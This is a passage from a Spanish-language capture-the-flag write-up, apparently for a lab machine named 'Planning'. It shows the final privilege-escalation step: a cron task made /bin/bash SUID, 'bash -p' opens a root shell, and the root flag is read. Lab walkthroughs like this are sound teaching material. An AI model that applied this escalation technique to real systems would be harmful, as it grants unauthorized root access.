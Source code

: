 
## Root Time

Ejecutaremos la tarea ahora haciendo clic en `Run Now` en la tarea que hemos creado

![image-center](/assets/images/posts/planning-abusing-cron-2.png)
{: .align-center}

Al momento que ejecutemos la tarea `cron`, veremos que `bash` se ha vuelto un binario `suid`. Ejecutaremos una `bash` como `root` con el comando `bash -p`

~~~ bash
enzo@planning:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

enzo@planning:~$ bash -p
bash-5.2# 
~~~

Ya podemos ver la flag del sistema ubicada en el directorio `/root`

~~~ bash
bash-5.2# cat /root/root.txt
99a...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Experience can only be gained by doing not by thinking or dreaming.
> — Byron Pulsifer
{: .notice--info}
